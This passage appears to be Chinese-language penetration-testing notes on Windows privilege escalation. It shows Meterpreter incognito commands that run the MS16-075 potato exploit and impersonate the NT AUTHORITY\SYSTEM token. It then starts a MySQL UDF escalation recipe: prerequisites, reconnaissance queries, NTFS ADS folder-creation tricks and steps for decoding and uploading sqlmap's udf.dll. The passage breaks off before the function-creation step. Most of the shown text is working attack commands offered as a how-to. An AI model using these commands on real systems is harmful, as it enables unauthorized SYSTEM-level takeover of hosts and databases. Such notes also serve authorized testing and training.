 - 使用`ms16-075`配合msf提权

```cmd
use incognito	#使用该模块窃取令牌,模仿令牌
list_tokens -u 	#列举当前的令牌
execute -cH -f ./potato.exe		#执行exp
list_tokens -u	#查看令牌,有一个执行system权限的模仿令牌
impersonate_token "NT AUTHORITY\SYSTEM"		#执行窃取令牌命令
```

****

# Mysql数据库提权

> 前提:获取root用户的账号密码
>
> 注意:如果`into dumpfile`不能用,换`into outfile`

### 使用`udf`提权

- udf->用户自定义函数,支持用户自定义
- 通过`添加新的函数`,对mysql服务器进行`功能扩充`,从而创建函数,将mysql账号转化为系统system权限
- udf提权是通过root权限导出udf.dll到系统目录下,可以通过调用执行cmd
- 利用条件

![image-20241030155623014](./assets/image-20241030155623014.png)

```cmd
1.windows 2000,xp,2003
2.MySQL数据库版本
3,账号具有对mysql的插入和删除权限
4.可以将udf.dll写入到相应到目录的权限

# 收集必要信息
select version();
select user();		
select @@basedir;	//获取数据库安装目录

#mysql数据库版本高于5.1,创建导出文件夹,使用NTFS ADS流来创建
select 'xxx' into dumpfile 'mysql目录\\lib::$INDEX_ALLCTION';
select 'xxx' into dumpfile 'mysql目录\\lib\\plugin::$INDEX_ALLCTION';

#导入udf.dll文件
-在sqlmap/data/udf/mysql/目录下,在windows目录钟有32位和64位dll文件(mysql的位数)
-文件夹中的dll文件是通过异或编码的,可以使用sqlmap/extra/cloak.py进行解密
-将dll文件上传到mysql的/lib/plugin目录下

#创建自定义函数
```